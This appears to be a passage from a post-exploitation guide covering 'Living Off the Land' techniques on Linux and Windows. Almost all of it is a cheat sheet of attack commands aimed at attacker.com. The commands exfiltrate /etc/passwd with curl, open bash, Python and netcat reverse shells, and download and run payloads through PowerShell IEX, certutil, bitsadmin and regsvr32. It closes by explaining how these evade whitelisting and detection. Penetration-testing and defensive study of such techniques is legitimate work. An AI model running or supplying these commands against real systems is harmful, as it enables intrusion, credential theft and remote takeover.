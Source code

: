 ```bash
```

## Advanced Post-Exploitation Techniques

### **Living Off the Land (LOLBAS/GTFOBins)**

**What Living Off the Land means:** Using legitimate system tools and utilities for malicious purposes, avoiding detection by using trusted binaries.

```bash
# Linux Living Off the Land (GTFOBins)
## File transfer using legitimate tools
# Base64 encoding/decoding
base64 /etc/passwd                           # Encode file
echo "encoded_content" | base64 -d > /tmp/passwd  # Decode file

# Using curl for file operations
curl file:///etc/passwd                      # Read local file
curl -X POST --data-binary @/etc/passwd http://attacker.com/  # Upload file

# Using wget for downloads
wget http://attacker.com/shell.sh -O /tmp/shell.sh
chmod +x /tmp/shell.sh

## Reverse shells using system utilities
# Bash reverse shell
bash -i >& /dev/tcp/attacker.com/4444 0>&1

# Python reverse shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("attacker.com",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# Netcat reverse shell
nc -e /bin/bash attacker.com 4444

# Windows Living Off the Land (LOLBAS)
## PowerShell for file operations
# Download files
powershell -c "Invoke-WebRequest -Uri 'http://attacker.com/file.exe' -OutFile 'C:\temp\file.exe'"
powershell -c "(New-Object Net.WebClient).DownloadFile('http://attacker.com/file.exe','C:\temp\file.exe')"

# Execute remote scripts
powershell -c "IEX(New-Object Net.WebClient).downloadString('http://attacker.com/script.ps1')"

## Certutil for file operations
certutil -urlcache -split -f http://attacker.com/file.exe C:\temp\file.exe
certutil -encode file.exe encoded.txt        # Base64 encode
certutil -decode encoded.txt file.exe        # Base64 decode

## Bitsadmin for downloads
bitsadmin /transfer mydownloadjob /download /priority normal http://attacker.com/file.exe C:\temp\file.exe

## Regsvr32 for code execution
regsvr32 /s /n /u /i:http://attacker.com/file.sct scrobj.dll

# Why Living Off the Land is effective:
# - Uses trusted system binaries
# - Bypasses application whitelisting
# - Reduces detection by security tools
# - No additional tools required
```
